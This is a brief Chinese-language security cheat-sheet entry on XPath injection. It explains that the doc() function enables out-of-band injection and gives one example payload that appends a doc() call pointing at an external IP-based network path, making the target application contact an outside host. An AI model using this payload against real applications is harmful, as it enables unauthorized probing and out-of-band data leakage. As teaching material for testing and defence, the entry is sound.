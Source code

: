 ![](img/89f32fba7ed5ffa104ccbc24f61020c0.png)

# XPath 注入

通常，doc()用于带外 XPath 注入，因此可以应用于解析网络路径。

```
[http://host.tld/?title=Foundation&type=*&rent_days=*](http://host.tld/?title=Foundation&type=*&rent_days=*) and doc('//35.164.153.224/@OsandaMalith')
```

![](img/8fd2479ac48d172eb4a7bbb6d0f858f5.png)
